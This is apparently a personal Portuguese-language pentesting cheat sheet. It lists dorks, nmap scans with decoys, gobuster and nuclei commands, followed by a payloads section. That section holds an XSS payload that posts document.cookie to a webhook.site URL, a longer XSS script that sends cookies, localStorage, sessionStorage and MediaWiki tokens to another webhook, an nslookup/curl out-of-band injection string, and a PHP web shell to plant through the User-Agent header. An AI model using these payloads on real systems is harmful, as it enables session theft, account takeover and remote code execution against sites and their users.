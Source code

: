 # Umas paradas que uso de vez em quando e gosto de deixar salvo pra lembrar

---

### Dorks & Descoberta
* **Encontrar Programas de VDP (Vulnerability Disclosure Program):**
    ```
    "Vulnerability Disclosure Program" VDP "site:uk -bugbount -hackerone -intigriti -bugcrowd -yeswehack"
    ```
* **Repositório de Google Dorks:**
    * [Dorks Faisalahmed](https://dorks.faisalahmed.me/)

### Escaneamento de Rede e Subdomínios
* **Nmap - Scan DNS para vazamento de informações:**
    ```bash
    # Verifica o servidor DNS (porta 53/UDP) por possíveis exposições de dados sensíveis.
    nmap -sU -p 53 --script=dns-nsid 10.129.2.48
    ```
* **Nmap - Scan Avançado:**
    ```bash
    # Scan com detecção de versão (-sV), usando decoys (D RND:2), múltiplos tipos de scan e user-agent customizado.
    nmap 10.129.4.84 -sV -D RND:2 -Pn -sS -sU --max-retries=2 --script-args http.useragent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36" -p-
    ```
* **Descoberta de Diretórios com Gobuster:**
    ```bash
    # Força bruta de diretórios com headers customizados de Host e Cookie.
    gobuster dir -u https://teste.com -w /usr/share/wordlists/dirb/common.txt  -t 50 -H 'Cookie: ASP.NET_SessionId=whvgzv2plsyzvnglugu2kxyc;' -k -x html,php,js,aspx,bat,txt,zip -b 400 -exclude-lenght 100
    ```

### Extensões úteis para Browser
* `dotgit`
* `Wappalyzer`
* `Shodan`
* `DNSlytics`
* `Retire-js`


## Análise de Vulnerabilidades

Ferramentas para escanear ativamente por falhas de segurança conhecidas.

* **Instalação do ZAP (Zed Attack Proxy):**
    ```bash
    # Uma ótima ferramenta para scan de aplicações web.
    sudo apt install zaproxy
    ```
* **Nuclei - Scan de CVEs em subdomínios:**
    ```bash
    # Encontra subdomínios, verifica quais estão ativos e roda um template específico do Nuclei.
    subfinder -all -d alvo.com -recursive | httpx | nuclei -nmhe -t ./nuclei-templates/http/cves/(CVE)/CVE-2025-0133.yaml
    ```
* **Nuclei - Scan geral de CVEs:**
    ```bash
    nuclei -t cves/ -u [http://alvo.com] -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
    ```
* **Nuclei - Scan focado em tecnologia (ex: Moodle):**
    ```bash
    nuclei -u [https://alvo.com]) -tags moodle
    ```


## Payloads & Exploração

Snippets de código para explorar vulnerabilidades como XSS, SSRF, etc.

### Cross-Site Scripting (XSS)

* **Payload XSS Simples para Roubo de Cookies:**
    ```html
    <img src="x" onerror="fetch('[https://webhook.site/085d7083-a25c-41c6-beb6-113d2b58e605](https://webhook.site/085d7083-a25c-41c6-beb6-113d2b58e605)', {method:'POST', body:'<cookie>='+document.cookie})">
    ```
* **Bypass de filtro de iframe com xss onerror**
```
<img src="invalid" onerror="document.body.innerHTML+='<iframe src=https://emupedia.net/emupedia-game-doom1/asmjs/ width=500 height=400></iframe>'">
```
* **Payload XSS Avançado para Exfiltração de Dados:**
    * Este script captura cookies, `localStorage`, `sessionStorage`, tokens específicos de MediaWiki e informações do usuário, enviando tudo para um webhook.
    ```html
    <img src="invalid" onerror="
  var data = {
    cookies: document.cookie,
    localStorage: {},
    sessionStorage: {},
    mediawikiTokens: {},
    userInfo: {}
  };
  
  // Capturar todos os dados do localStorage
  for(var i=0; i<localStorage.length; i++) {
    var key = localStorage.key(i);
    data.localStorage[key] = localStorage.getItem(key);
  }
  
  // Capturar todos os dados do sessionStorage
  for(var i=0; i<sessionStorage.length; i++) {
    var key = sessionStorage.key(i);
    data.sessionStorage[key] = sessionStorage.getItem(key);
  }
  
  // Tenta obter tokens do MediaWiki especificamente
  try {
    if (typeof mw !== 'undefined' && mw.user && mw.user.tokens) {
      data.mediawikiTokens = {
        editToken: mw.user.tokens.get('editToken'),
        csrfToken: mw.user.tokens.get('csrfToken'),
        watchToken: mw.user.tokens.get('watchToken')
      };
    }
  } catch(e) {}
  
  // Informações do usuário
  try {
    if (typeof mw !== 'undefined' && mw.config) {
      data.userInfo = {
        userName: mw.config.get('wgUserName'),
        userId: mw.config.get('wgUserId'),
        pageName: mw.config.get('wgPageName'),
        canonicalNamespace: mw.config.get('wgCanonicalNamespace'),
        revisionId: mw.config.get('wgRevisionId'),
        articleId: mw.config.get('wgArticleId')
      };
    }
  } catch(e) {}
  
  fetch('https://webhook.site/ce0ff999-b412-490d-aa38-f946520e63b0', {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify(data)
  });
    ">

```
```
### Out-of-Band (OOB)

* **Payload OOB para testar em Headers (Blind SSRF, etc):**
    * Tenta forçar uma resolução DNS e uma requisição HTTP para um domínio externo. Útil para injetar em cabeçalhos como `User-Agent`, `Referer`, `X-Forwarded-For`, etc.
    ```bash
    # :r: é um placeholder para o valor que será injetado
    :r:nslookup -q=cname hitvibmacavit642a1.bxss.me|curl hitvibmacav
    ```

### Server local

```bash
python3 -m http.server 1234
ngrok http 1234

(pra se usar o ngrok precisa do http.server, porém só o http.server já server como server interno, o ngrok o deixa publico)
```
## Ferramentas & Recursos Adicionais
- ?_TSM_HiddenField_=jhbdvfkjhdfbvdfbv&_TSM_CombinedScripts_=1
Links para repositórios e ferramentas úteis.

- [SHCheck - Shell/Header Vulnerability Checker](https://github.com/santoru/shcheck)
- [Converter imagem em link pub](https://pngup.com/)

- <?php system($_GET['ted']);?> no user agent e depois ve se proca na url e etc

